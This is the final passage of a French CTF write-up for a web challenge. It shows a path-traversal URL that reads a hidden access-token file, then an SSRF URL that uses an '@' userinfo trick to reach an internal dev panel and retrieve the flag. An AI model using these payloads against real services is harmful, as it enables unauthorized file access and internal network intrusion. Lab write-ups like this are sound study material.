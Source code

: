 Le fichier `http://worker05.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//home/freechat/.for_d3vs_0nly/access_token.txt` contient le sésame.

On peut donc réutiliser la SSRF avec le token:

`http://pbs.twimg.com@devpanel:8000/?token=af33aa8342e212020e0ba08bca94e3559f82d3efb0eb7ec6e7eafbc11710f05b`

```html
<!DOCTYPE html>
<html>
<head>
    <title>DevPanel</title>
</head>
<body>
    <div style="text-align: center;">
        <h1>DevPanel</h1>

            <h5>Hello dev, your flag is : GCC{L0c4t3_tr1ck+SsRf_1s_FuN}</h5>
            <p>Made with ❤️ by Mika</p>

    </div>
</body>
</html>
```

Merci pour votre lecture!
